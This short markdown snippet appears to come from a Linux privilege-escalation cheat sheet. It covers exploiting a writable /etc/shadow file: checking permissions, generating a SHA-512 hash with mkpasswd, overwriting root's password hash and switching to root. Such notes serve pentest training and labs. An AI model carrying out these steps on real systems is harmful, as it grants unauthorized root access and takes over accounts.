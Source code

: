 - - -
### Writable /etc/Shadow  : 

###### Check to see If we can write to The shadow File.

```sh
ls -l /etc/shadow
```

#### Generate a new password hash with a password of your choice:

```sh
mkpasswd -m sha-512 newpasswordhere
```

**Edit** the /etc/shadow file and **replace** the original root user's password hash with the one you just generated.
Then;

```sh
su root
```

- - -

